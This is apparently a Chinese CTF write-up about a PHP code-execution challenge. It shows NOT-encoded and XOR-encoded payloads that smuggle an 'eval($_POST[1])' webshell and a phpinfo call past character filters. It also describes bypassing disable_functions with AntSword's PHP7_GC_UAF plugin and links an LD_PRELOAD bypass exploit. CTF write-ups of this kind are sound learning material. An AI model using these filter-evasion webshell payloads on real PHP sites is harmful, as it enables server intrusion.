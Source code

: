 写脚本和bp发包试了半天一直不成功，只好看WP(后来发现是shell函数都被ban了)
发现是[取反或者异或绕过](https://blog.csdn.net/mochu7777777/article/details/104631142)

> **取反马**
>
> ```php
> <?php
> echo urlencode(~'assert').'\n';
> echo urlencode(~'eval($_POST[1])');
> ?>
> %9E%8C%8C%9A%8D%8B
> %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6
> ?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
> ```
>
> 

> **异或马**
>
> 异或的构造可以参考ctfshow的web41，里面的脚本稍微改改就能用(y1ng师傅太强了)
> 但是这题限制了code长度，所以不能用**异或马**，但看phpinfo是足够的
>
> `?code=("%10%08%10%09%0e%06%0f"|"%60%60%60%60%60%60%60")("%10"|"%21");`

然后getshell死活弄不上，在phpinfo发现`system shell_exec 反引号也不能用`，都被过滤了
在看了目录之后
直接`readfile('/flag')读不出来`
`readfile('/readflag')`读出来乱码，感觉是命令
也就是说要执行这个linux命令才能得到flag😭

连蚁剑！

![image-20220808161837343](D:\Typora\note\CTF\web\challenge.assets\image-20220808161837343.png)

插件里有一个**绕过disable_function**

![image-20220808161913937](D:\Typora\note\CTF\web\challenge.assets\image-20220808161913937.png)

选择`PHP7_GC_UAF`，开始

![image-20220808161949234](D:\Typora\note\CTF\web\challenge.assets\image-20220808161949234.png)

输入命令得到flag，原理我是不懂的=。=

第二种方法感觉就是自己写的蚁剑的插件

参考链接：https://www.anquanke.com/post/id/175403
[EXP地址](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

**暂不研究原理**



### [MRCTF2020]套娃


